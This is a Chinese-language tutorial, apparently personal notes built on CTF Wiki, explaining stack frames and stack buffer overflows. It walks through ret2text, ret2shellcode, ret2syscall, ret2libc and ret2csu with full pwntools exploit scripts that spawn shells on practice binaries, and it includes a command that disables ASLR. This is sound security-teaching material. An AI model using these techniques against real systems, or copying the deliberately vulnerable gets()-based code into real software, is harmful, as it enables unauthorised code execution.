


# 栈溢出

Author: H3rmesk1t

# 栈介绍
## 基本栈介绍
栈是一种后进先出(LIFO)的数据结构, 只有入栈(push)和出栈(pop)两种操作. 每个程序在运行的过程中都存在虚拟地址空间, 其中某一部分就是该程序对应的栈, 用于保存函数调用信息和局部变量. 需要注意的是, 程序的栈是从进程地址空间的高地址向低地址增长的.

<div align=center></div>

## 函数调用栈
在程序的运行期间, 内存中有一块用来实现程序的函数调用机制的区域, 该区域是一块`LIFO`的数据结构区域, 我们通常叫其函数栈. 每个未退出的函数都会在函数栈中拥有一块数据区, 即函数的栈帧. 函数的调用栈帧中, 保存了相应的函数的一些重要信息: 函数中使用的局部变量、函数的参数, 另外还有一些维护函数栈所需要的数据, 比如`EBP`指针(指向“父函数”的调用栈帧), 函数的返回地址等.


这里通过调试代码来理解一下, 示例代码如下:

```c++
#include <iostream>

int add(int num) {
    int temp = 2;
    return num + temp;
}

int main() {
    int num = 1;
    std::cout << add(num) << std::endl;
    return 0;
}
```

<div align=center></div>

<div align=center></div>

这里给出一张寄存器的图, 需要注意的是, `32`位和`64`位程序存在一定的区别:
 - x86
    - 函数参数在函数返回地址上.
 - x64: 
    - 内存地址不能大于`0x00007FFFFFFFFFFF`, `6`个字节长度,否则会抛出异常.
    - `System V AMD64 ABI`(Linux、FreeBSD、macOS等采用)中前六个整型或指针参数依次保存在`RDI`, `RSI`, `RDX`, `RCX`, `R8`和`R9`寄存器中, 如果还有更多的参数的话才会保存在栈上.

<div align=center></div>

其中, 常见寄存器有:
 - 数据寄存器: EAX(累加器), EBX(基地址寄存器), ECX(计数器), EDX(用来放整数除法产生的余数)
 - 变址和指针寄存器: ESI(源索引寄存器), EDI(目标索引寄存器)
 - 指针寄存器: ESP(栈指针寄存器-其内存放着一个指针永远指向系统栈最上面一个栈帧的栈顶), EBP(基址指针寄存器-其内存放着一个指针永远指向系统栈最上面一个栈帧的底部)


# 栈溢出原理
## 介绍
栈溢出指的是程序向栈中某个变量中写入的字节数超过了这个变量本身所申请的字节数, 因而导致与其相邻的栈中的变量的值被改变. 这种问题是一种特定的缓冲区溢出漏洞, 类似的还有堆溢出, `bss`段溢出等溢出方式. 栈溢出漏洞轻则可以使程序崩溃, 重则可以使攻击者控制程序执行流程. 

此外, 发生栈溢出的基本前提是:
 - 程序必须向栈上写入数据.
 - 程序向栈上写入的数据大小未能被很好的控制.

## 示例
在栈溢出漏洞中, 最典型的漏洞利用方式是覆盖程序的返回地址为攻击者所控制的地址, 当然, 这个地址所在的段是必须有可执行权限的. 下面用一个简单的例子来进行说明, 示例代码如下:

```c++
#include<stdio.h>
#include<string.h>

void success() {
	puts("Successfully, you have already controlled this system!");
	system("/bin/bash");
}

void vulnerable() {
	char data[10];
	gets(data);
	puts(data);
	return;
}

int main(int argc, char **argv) {
	vulnerable();
	return 0;
}
```

上述程序的主要目的读取一个字符串并将其输出, 而我们则希望可以控制程序执行`success`函数. 编译示例代码:

```bash
gcc -m32 -fno-stack-protector -no-pie example.c -o example

explanation:
    -m32: 生成32位程序.
    -fno-stack-protector: 不开启堆栈溢出保护, 即不生成canary.
    -no-pie: 避免加载基址被打乱, 不同gcc版本对于PIE的默认配置不同, 可通过命令gcc -v来查看默认的开关情况.
```

<div align=center></div>

在上面的编译结果中可以看到`gets`本身是一个危险函数(从不检查输入字符串的长度, 而是以回车来判断输入是否结束), 因此很容易导致栈溢出现象出现.

上文提到编译时的`PIE`保护, 其实在`Linux`平台下还有地址空间分布随机化(ASLR)的机制. 即使可执行文件开启了`PIE`保护, 还需要系统开启`ASLR`才会真正打乱基址, 否则程序运行时依旧会在加载一个固定的基址上(不过和No PIE时基址不同). 可以通过修改`/proc/sys/kernel/randomize_va_space`来控制`ASLR`启动与否, 具体选项为:
 1. 关闭`ASLR`. 没有随机化, 栈、堆、`.so`的基地址每次都相同.
 2. 普通的`ASLR`. 栈基地址、`mmap`基地址、`.so`加载基地址都将被随机化, 但是堆基地址没有随机化.
 3. 增强的`ASLR`. 在普通`ASLR`的基础上增加了堆基地址随机化.

根据上文的选项讲解, 可以使用`echo 0 > /proc/sys/kernel/randomize_va_space`关闭`Linux`系统的`ASLR`, 类似的也可以配置相应的参数.

编译成功后, 使用工具`checksec`来检查编译出的文件, 可以看到栈溢出和`PIE`保护都是关闭的.

<div align=center></div>

利用`IDA`来反编译一下二进制程序并查看`vulnerable`函数.

<div align=center></div>

在`vulnerable`函数中, 该字符串距离`ebp`的长度为`0x12`, 那么相应的栈结构为:

```text
                                        +-----------------+
                                        |     retaddr     |
                                        +-----------------+
                                        |     saved ebp   |
                                ebp--->+-----------------+
                                        |                 |
                                        |                 |
                                        |                 |
                                        |                 |
                                        |                 |
                                        |                 |
                        data,ebp-0x16-->+-----------------+
```

并且, 我们可以通过`IDA`获得`success`的地址, 其地址为`0x080491B6`.

<div align=center></div>

那么如果我们读取的字符串为`0x12*'a'+'bbbb'+success_addr`, 由于`gets`会读到回车才算结束, 所以我们可以直接读取所有的字符串, 并且将`saved ebp`覆盖为`bbbb`, 将`retaddr`覆盖为`success_addr`, 此时的栈结构为:

```text
                                        +-----------------+
                                        |    0x080491B6   |
                                        +-----------------+
                                        |       bbbb      |
                                ebp--->+-----------------+
                                        |                 |
                                        |                 |
                                        |                 |
                                        |                 |
                                        |                 |
                                        |                 |
                        data,ebp-0x16-->+-----------------+
```

根据上文的分析, 即可开始构造相应的`exploit`了. 这里需要注意的一点是, 在计算机内存中每个值都是按照字节存储的. 一般情况下都是采用小端存储, 即`0x080491B6`在内存中的形式是`\xb6\x91\x04\x08`. `exploit`如下:

```python
# coding=utf-8
from pwn import *

# 构造与程序交互的对象
p = process('./example')
success_addr = 0x080491B6

# 构造Payload
# payload = 'a' * 0x16 + p32(success_addr)
payload = 'a' * 0x12 + 'bbbb' + p32(success_addr)

# 发送Payload
p.sendline(payload)

# 代码交互转为手工交互
p.interactive()
```

执行`exploit`, 可以看到成功执行到了`success`函数.

<div align=center></div>

## 总结
### 寻找危险函数
通过寻找危险函数, 可以快速确定程序是否可能存在栈溢出, 以及存在的话, 栈溢出的位置在哪里. 常见的危险函数如下:
 - 输入
   - gets
   - scanf
   - vscanf
 - 输出
   - sprintf
 - 字符串
   - strcpy
   - strcat
   - bcopy

### 确定填充长度
这一部分主要是计算我们所要操作的地址与我们所要覆盖的地址的距离. 常见的操作方法就是打开`IDA`, 根据其给定的地址计算偏移.

一般来说, 变量会有以下几种索引模式:
 - 相对于栈基地址的的索引, 可以直接通过查看`EBP`相对偏移获得.
 - 相对应栈顶指针的索引, 一般需要进行调试, 之后还是会转换到第一种类型.
 - 直接地址索引, 就相当于直接给定了地址.

一般来说, 会有如下的覆盖需求:
 - 覆盖函数返回地址, 这时候就是直接看`EBP`即可.
 - 覆盖栈上某个变量的内容.
 - 覆盖`bss`段某个变量的内容.
 - 根据现实执行情况, 覆盖特定的变量或地址的内容.

# 基本ROP
随着`NX`保护的开启, 以往直接向栈或者堆上直接注入代码的方式难以继续发挥效果. 攻击者们也提出来相应的方法来绕过保护, 目前主要的是`ROP`(Return Oriented Programming), 其主要思想是在栈缓冲区溢出的基础上, 利用程序中已有的小片段(gadgets)来改变某些寄存器或者变量的值, 从而控制程序的执行流程. 所谓`gadgets`就是以`ret`结尾的指令序列, 通过这些指令序列, 我们可以修改某些地址的内容, 方便控制程序的执行流程.

之所以称之为`ROP`, 是因为核心在于利用了指令集中的`ret`指令, 改变了指令流的执行顺序. `ROP`攻击一般得满足如下条件:
 - 程序存在溢出, 并且可以控制返回地址.
 - 可以找到满足条件的`gadgets`以及相应`gadgets`的地址.

如果`gadgets`每次的地址是不固定的, 那我们就需要想办法动态获取对应的地址了.

## ret2text
### 原理
`ret2text`即控制程序执行程序本身已有的的代码(.text). 其实这种攻击方法是一种笼统的描述, 我们控制执行程序已有的代码的时候也可以控制程序执行好几段不相邻的程序已有的代码(也就是`gadgets`), 这就是我们所要说的`ROP`. 这时, 我们需要知道对应返回的代码的位置, 当然程序也可能会开启某些保护, 我们需要想办法去绕过这些保护.

### 例子
程序下载链接: [ret2text](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2text/bamboofox-ret2text/ret2text).

首先, 查看一下程序的保护机制. 可以看到这是一个`32`位程序, 并且开起了栈不可执行保护.

<div align=center></div>

使用`IDA`来查看源代码, 程序在主函数中使用了`gets`函数, 显然存在栈溢出漏洞.

<div align=center></div>

在`secure`函数又发现了存在调用`system("/bin/sh")`的代码. 到此, 攻击逻辑基本就清楚了, 我们直接控制程序返回至`0x0804863A`, 那么就可以得到系统的`shell`了.

<div align=center></div>

下面就是确定填充长度来构造`payload`的问题了, 首先需要确定的是我们能够控制的内存的起始地址距离`main`函数的返回地址的字节数.

<div align=center></div>

可以看到该字符串是通过相对于`esp`的索引, 所以我们需要进行调试, 将断点下在`call`处, 查看`esp`, `ebp`.

<div align=center></div>

可以看到`esp`为`0xff805d70`, `ebp`为`0xff805df8`, 同时`s`相对于`esp`的索引为`esp+0x1c`, 因此我们可以推断:
 - `s`的地址为`0xff805d8c`
 - `s`相对于`ebp`的偏移为`0xff805df8-0xff805d8c`, 即`0x6c`.

`exploit`如下:

```python
# coding=utf-8
from pwn import *

sh = process('./ret2text')
shell_addr = 0x0804863A
payload = 'a' * (0x6c+4) + p32(shell_addr)
sh.sendline(payload)
sh.interactive()
```

<div align=center></div>

## ret2shellcode
### 原理
`ret2shellcode`即控制程序执行`shellcode`代码. `shellcode`指的是用于完成某个功能的汇编代码, 常见的功能主要是获取目标系统的`shell`. 一般来说, `shellcode`需要我们自己填充. 这其实是另外一种典型的利用方法, 此时我们需要自己去填充一些可执行的代码.

在栈溢出的基础上, 要想执行`shellcode`, 需要对应的`binary`在运行时, `shellcode`所在的区域具有可执行权限.

### 例子
程序下载链接: [ret2shellcode](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2shellcode/ret2shellcode-example/ret2shellcode).

首先, 查看一下程序的保护机制. 可以看到这是一个`32`位程序, 源程序几乎没有开启任何保护, 并且有可读, 可写, 可执行段.

<div align=center></div>

使用`IDA`来查看源代码, 程序仍然是基本的栈溢出漏洞, 不过这次还同时将对应的字符串复制到`buf2`处, 简单查看可知`buf2`在`bss`段.

<div align=center></div>

<div align=center></div>

这时, 我们简单的调试下程序, 看看这一个`bss`段是否可执行. 通过`vmmap`, 我们可以看到`bss`段对应的段具有可执行权限.

<div align=center></div>

那么这次我们就控制程序执行`shellcode`, 也就是读入`shellcode`, 然后控制程序执行`bss`段处的`shellcode`.

<div align=center></div>

`exploit`如下:

```python
#!/usr/bin/env python
from pwn import *

sh = process('./ret2shellcode')
shellcode = asm(shellcraft.sh())
buf2_addr = 0x804a080

sh.sendline(shellcode.ljust(112, 'A') + p32(buf2_addr))
sh.interactive()
```

## ret2syscall
### 原理
`ret2syscall`, 即控制程序执行系统调用来获取`shell`. 

系统调用:
 - 操作系统提供给用户的编程接口.
 - 是提供访问操作系统所管理的底层硬件的接口.
 - 本质上是一些内核函数代码, 以规范的方式驱动硬件.
 - `x86`通过`int 0x80`指令进行系统调用、`amd64`通过`syscall`指令进行系统调用`mov eax, 0xb mov ebx, ["/bin/sh"] mov ecx, 0 mov edx, 0 int 0x80 => execve("/bin/sh",NULL,NULL)`.

<div align=center></div>

### 例子
程序下载链接: [ret2syscall](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2syscall/bamboofox-ret2syscall/rop).

首先, 查看一下程序的保护机制. 可以看到这是一个`32`位程序, 开起了`NX`保护.

<div align=center></div>

使用`IDA`来查看源代码, 可以看出此次仍然是一个栈溢出. 类似于之前的做法, 可以获得`v4`相对于`ebp`的偏移为`108`, 所以需要覆盖的返回地址相对于`v4`的偏移为`112`. 由于不能直接利用程序中的某一段代码或者自己填写代码来获得`shell`, 所以利用程序中的`gadgets`来获得`shell`, 而对应的`shell`获取则是利用系统调用. [系统调用的知识](https://zh.wikipedia.org/wiki/%E7%B3%BB%E7%BB%9F%E8%B0%83%E7%94%A8).

<div align=center></div>

简单地说, 只要把对应获取`shell`的系统调用的参数放到对应的寄存器中, 那么在执行`int 0x80`就可执行对应的系统调用. 比如说这里利用如下系统调用来获取`shell`: `execve("/bin/sh",NULL,NULL)`

其中, 该程序是`32`位, 所以需要使得:
 - 系统调用号, 即`eax`应该为`0xb`.
 - 第一个参数, 即`ebx`应该指向`/bin/sh`的地址, 其实执行`sh`的地址也可以.
 - 第二个参数, 即`ecx`应该为`0`.
 - 第三个参数, 即`edx`应该为`0`.

这里解释一下为啥`eax`传参是`0xb`. 在`execve.c`文件中`execve`被这样定义`_syscall3(int,execve,const char *,file,char **,argv,char **,envp)`, 其中`_syscall3`是一个宏, 将其展开后如下:

```c++
int execve(const char * file,char ** argv,char ** envp) \
{ \
long __res; \
__asm__ volatile ("int $0x80" \
	: "=a" (__res) \
	: "0" (__NR_execve),"b" ((long)(file)),"c" ((long)(argv)),"d" ((long)(envp))); \
if (__res>=0) \
	return (int) __res; \
errno=-__res; \
return -1; \
}
```

可以看到`execve`本质是系统调用`int 0x80`(类似于软中断的触发), 系统调用号为`__NR_execve`赋值在`eax`当中, 传入的参数分别为`file`、`argv`、`envp`由`ebx`、`ecx`、`edx`寄存器分别传入. 而`__NR_execve`在`/usr/include/asm/unistd_32.h`或者`/usr/include/asm/unistd_64.h`中定义, 值分别为`11`和`59`, 是`sys_call_table`的索引值(用于找到该表中对应的系统调用函数sys_execve).

<div align=center></div>

具体寻找`gadgets`的方法, 可以使用[ropgadgets](https://github.com/JonathanSalwan/ROPgadget)这个工具.

首先, 我们来寻找控制`eax`的`gadgets`, 可以看到下图中有几个都可以控制`eax`, 这里选取第二个来作为`gadgets`.

<div align=center></div>

接着来寻找`ebx`的`gadgets`, 可以看到在下图中标记的`gadgets`同时可以直接控制`ebx`, `ecx`, `edx`三个寄存器.

<div align=center></div>

接着需要获得`/bin/sh`字符串对应的地址.

<div align=center></div>

最后获取`int 0x80`的地址.

<div align=center></div>

`exploit`如下:

```python
# coding=utf-8
from pwn import *

sh = process('./rop')

pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
int_0x80 = 0x08049421
binsh = 0x080be408

# flat模块能将pattern字符串和地址结合并且转为字节模式
payload = flat(['a' * 0x70, pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, binsh, int_0x80])
sh.sendline(payload)
sh.interactive()
```

<div align=center></div>

## ret2libc
### 原理
`ret2libc`即控制函数的执行`libc`中的函数, 通常是返回至某个函数的`plt`处或者函数的具体位置(即函数对应的`got`表项的内容). 一般情况下, 我们会选择执行`system("/bin/sh")`, 故而此时我们需要知道`system`函数的地址.

### 例子1
程序下载链接: [ret2libc1](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2libc/ret2libc1/ret2libc1).

源程序为`32`位, 开启了`NX`保护.

<div align=center></div>

用`IDA`查看, 可以看到在执行`gets`函数的时候出现了栈溢出.

<div align=center></div>

利用`ropgadget`, 可以查看是否有`/bin/sh`存在.

<div align=center></div>

查找一下是否有`system`函数存在.

<div align=center></div>

由于存在`system`函数, 因此直接返回该处执行`system`函数即可. 这里我们需要注意函数调用栈的结构, 如果是正常调用`system`函数, 我们调用的时候会有一个对应的返回地址, 这里以`bbbb`作为虚假的地址, 其后参数对应的参数内容. `exploit`如下:

```python
# coding=utf-8
from pwn import *

sh = process('./ret2libc1')

binsh_addr = 0x8048720
system_plt = 0x08048460

# flat模块能将pattern字符串和地址结合并且转为字节模式
payload = flat(['a' * 112, system_plt, 'b' * 4, binsh_addr])

sh.sendline(payload)
sh.interactive()
```

<div align=center></div>

### 例子2
程序下载链接: [ret2libc2](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2libc/ret2libc2/ret2libc2).

该题目与`例子1`基本一致, 只不过不再出现`/bin/sh`字符串, 所以此次需要我们自己来读取字符串, 需要两个`gadgets`. 第一个控制程序读取字符串, 第二个控制程序执行`system("/bin/sh")`. 由于漏洞与上述一致, `exploit`如下:

```python
# coding=utf-8
from pwn import *

sh = process('./ret2libc2')

gets_plt = 0x8048460
pop_ebx = 0x0804843d
system_plt = 0x8048490
buf2 = 0x804A080


# flat模块能将pattern字符串和地址结合并且转为字节模式
# payload1 = flat(["a"*112,gets,pop,buf2,system,"aaaa",buf2])
payload2 = flat(['a' * 112, gets_plt, system_plt, buf2, buf2])

sh.sendline(payload2)
sh.sendline('/bin/sh')
sh.interactive()
```

<div align=center></div>

### 例子3
程序下载链接: [ret2libc3](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2libc/ret2libc3/ret2libc3).

在`例子2`的基础上, 再次将`system`函数的地址去掉. 此时需要同时找到`system`函数地址与`/bin/sh`字符串的地址.

在得到`system`函数的地址的过程中主要利用了两个知识点:
 - `system`函数属于`libc`, 而`libc.so`动态链接库中的函数之间相对偏移是固定的.
 - 即使程序有`ASLR`保护, 也只是针对于地址中间位进行随机, 最低的`12`位并不会发生改变. [libc搜集](https://github.com/niklasb/libc-database)

因此, 当我们知道`libc`中某个函数的地址时, 就可以确定该程序利用的`libc`. 进而就可以知道`system`函数的地址. 对于得到`libc`中的某个函数的地址, 我们一般常用的方法是采用`got`表泄露, 即输出某个函数对应的`got`表项的内容. 由于`libc`的延迟绑定机制, 我们需要泄漏已经执行过的函数的地址. 根据上面的步骤得到`libc`后, 在程序中查询偏移, 然后再次获取`system`地址, 除了手动操作的方式, 这里给出一个`libc`的利用工具——[LibcSearcher](https://github.com/lieanu/LibcSearcher). `libc`中也是有`/bin/sh`字符串的, 在得到`libc`之后, 我们可以一起获得`/bin/sh`字符串的地址.

对于这道题, 我们采用泄露`__libc_start_main`地址的方式, 这是因为它是程序最初被执行的地方. 基本利用思路如下:
 - 泄露`__libc_start_main`地址.
 - 获取`libc`版本.
 - 获取`system`地址与`/bin/sh`的地址.
 - 再次执行源程序, 触发栈溢出执行`system('/bin/sh')`.

`exploit`如下:

```python
# coding=utf-8
from pwn import *
from LibcSearcher import *

sh = process('./ret2libc3')

ret2libc3 = ELF('./ret2libc3')
puts_plt = ret2libc3.plt['puts']
libc_start_main_got = ret2libc3.got['__libc_start_main']
main = ret2libc3.symbols['main']

print "leak libc_start_main_got addr and return to main again"
payload = flat(['A' * 112, puts_plt, main, libc_start_main_got])
sh.sendlineafter('Can you find it !?', payload)

print "get the related addr"
libc_start_main_addr = u32(sh.recv()[0:4])
libc = LibcSearcher('__libc_start_main', libc_start_main_addr)
libcbase = libc_start_main_addr - libc.dump('__libc_start_main')
system_addr = libcbase + libc.dump('system')
binsh_addr = libcbase + libc.dump('str_bin_sh')

print "get shell"
payload = flat(['A' * 104, system_addr, 'aaaa', binsh_addr])
sh.sendline(payload)

sh.interactive()
```

<div align=center></div>

## ret2csu
### 原理
在`64`位程序中, 函数的前`6`个参数是通过寄存器传递的, 但是大多数时候很难找到每一个寄存器对应的`gadgets`. 这时候我们可以利用`x64`下的`__libc_csu_init`中的`gadgets`. 这个函数是用来对`libc`进行初始化操作的, 而一般的程序都会调用`libc`函数, 所以这个函数一定会存在. 我们先来看一下这个函数(不同版本的这个函数有一定的区别):

```c++
.text:00000000004005C0 ; void _libc_csu_init(void)
.text:00000000004005C0                 public __libc_csu_init
.text:00000000004005C0 __libc_csu_init proc near               ; DATA XREF: _start+16 o
.text:00000000004005C0                 push    r15
.text:00000000004005C2                 push    r14
.text:00000000004005C4                 mov     r15d, edi
.text:00000000004005C7                 push    r13
.text:00000000004005C9                 push    r12
.text:00000000004005CB                 lea     r12, __frame_dummy_init_array_entry
.text:00000000004005D2                 push    rbp
.text:00000000004005D3                 lea     rbp, __do_global_dtors_aux_fini_array_entry
.text:00000000004005DA                 push    rbx
.text:00000000004005DB                 mov     r14, rsi
.text:00000000004005DE                 mov     r13, rdx
.text:00000000004005E1                 sub     rbp, r12
.text:00000000004005E4                 sub     rsp, 8
.text:00000000004005E8                 sar     rbp, 3
.text:00000000004005EC                 call    _init_proc
.text:00000000004005F1                 test    rbp, rbp
.text:00000000004005F4                 jz      short loc_400616
.text:00000000004005F6                 xor     ebx, ebx
.text:00000000004005F8                 nop     dword ptr [rax+rax+00000000h]
.text:0000000000400600
.text:0000000000400600 loc_400600:                             ; CODE XREF: __libc_csu_init+54 j
.text:0000000000400600                 mov     rdx, r13
.text:0000000000400603                 mov     rsi, r14
.text:0000000000400606                 mov     edi, r15d
.text:0000000000400609                 call    qword ptr [r12+rbx*8]
.text:000000000040060D                 add     rbx, 1
.text:0000000000400611                 cmp     rbx, rbp
.text:0000000000400614                 jnz     short loc_400600
.text:0000000000400616
.text:0000000000400616 loc_400616:                             ; CODE XREF: __libc_csu_init+34 j
.text:0000000000400616                 add     rsp, 8
.text:000000000040061A                 pop     rbx
.text:000000000040061B                 pop     rbp
.text:000000000040061C                 pop     r12
.text:000000000040061E                 pop     r13
.text:0000000000400620                 pop     r14
.text:0000000000400622                 pop     r15
.text:0000000000400624                 retn
.text:0000000000400624 __libc_csu_init endp
```

这里我们可以利用以下几点:
 - 从`0x000000000040061A`一直到结尾, 可以利用栈溢出构造栈上数据来控制`rbx`, `rbp`, `r12`, `r13`, `r14`, `r15`寄存器的数据.
 - 从`0x0000000000400600`到`0x0000000000400609`, 可以将`r13`赋给`rdx`, 将`r14`赋给`rsi`, 将`r15d`赋给`edi`(虽然这里赋给的是`edi`, 但其实此时`rdi`的高`32`位寄存器值为`0`, 所以其实我们可以控制`rdi`寄存器的值, 只不过只能控制低`32`位), 而这三个寄存器, 也是`x64`函数调用中传递的前三个寄存器. 此外, 如果我们可以合理地控制`r12`与`rbx`, 那么我们就可以调用我们想要调用的函数. 比如说我们可以控制`rbx`为`0`, `r12`为存储我们想要调用的函数的地址.
 - 从`0x000000000040060D`到`0x0000000000400614`, 我们可以控制`rbx`与`rbp`的之间的关系为`rbx+1 = rbp`, 这样就不会执行`loc_400600`, 进而可以继续执行下面的汇编程序. 这里可以简单的设置为: `rbx=0`, `rbp=1`.

### 例子
程序下载链接: [ret2csu](https://github.com/zhengmin1989/ROP_STEP_BY_STEP/raw/master/linux_x64/level5).

先`checksec`查看一下程序, 程序为`64`位, 开启了堆栈不可执行保护.

<div align=center></div>

`IDA`查看程序, 跟进`vulnerable_function`函数, 可以看到程序存在一个栈溢出的漏洞点. 并且在程序中既没有`system`函数地址, 也没有`/bin/sh`字符串, 需要我们自己去构造.

<div align=center></div>

这里使用的是`execve`来获取`shell`, 基本利用思路如下:
 - 利用栈溢出执行`libc_csu_gadgets`获取`write`函数地址, 并使得程序重新执行`main`函数.
 - 根据`libcsearcher`获取对应`libc`版本以及`execve`函数地址.
 - 再次利用栈溢出执行`libc_csu_gadgets`向`bss`段写入`execve`地址以及`'/bin/sh'`地址, 并使得程序重新执行`main`函数.
 - 再次利用栈溢出执行`libc_csu_gadgets`执行`execve('/bin/sh')`获取`shell`.

`exploit`参考`CTF Wiki`:

```python
from pwn import *
from LibcSearcher import LibcSearcher

#context.log_level = 'debug'

level5 = ELF('./level5')
sh = process('./level5')

write_got = level5.got['write']
read_got = level5.got['read']
main_addr = level5.symbols['main']
bss_base = level5.bss()
csu_front_addr = 0x0000000000400600
csu_end_addr = 0x000000000040061A
fakeebp = 'b' * 8


def csu(rbx, rbp, r12, r13, r14, r15, last):
    # pop rbx,rbp,r12,r13,r14,r15
    # rbx should be 0,
    # rbp should be 1,enable not to jump
    # r12 should be the function we want to call
    # rdi=edi=r15d
    # rsi=r14
    # rdx=r13
    payload = 'a' * 0x80 + fakeebp
    payload += p64(csu_end_addr) + p64(rbx) + p64(rbp) + p64(r12) + p64(
        r13) + p64(r14) + p64(r15)
    payload += p64(csu_front_addr)
    payload += 'a' * 0x38
    payload += p64(last)
    sh.send(payload)
    sleep(1)


sh.recvuntil('Hello, World\n')
## RDI, RSI, RDX, RCX, R8, R9, more on the stack
## write(1,write_got,8)
csu(0, 1, write_got, 8, write_got, 1, main_addr)

write_addr = u64(sh.recv(8))
libc = LibcSearcher('write', write_addr)
libc_base = write_addr - libc.dump('write')
execve_addr = libc_base + libc.dump('execve')
log.success('execve_addr ' + hex(execve_addr))
##gdb.attach(sh)

## read(0,bss_base,16)
## read execve_addr and /bin/sh\x00
sh.recvuntil('Hello, World\n')
csu(0, 1, read_got, 16, bss_base, 0, main_addr)
sh.send(p64(execve_addr) + '/bin/sh\x00')

sh.recvuntil('Hello, World\n')
## execve(bss_base+8)
csu(0, 1, bss_base, 0, 0, bss_base + 8, main_addr)
sh.interactive()
```
<!-- 
<div align=center></div>

<div align=center></div>
<div align=center></div>
<div align=center></div>
<div align=center></div>
<div align=center></div>
<div align=center></div>
<div align=center></div>
<div align=center></div>
<div align=center></div>
<div align=center></div> -->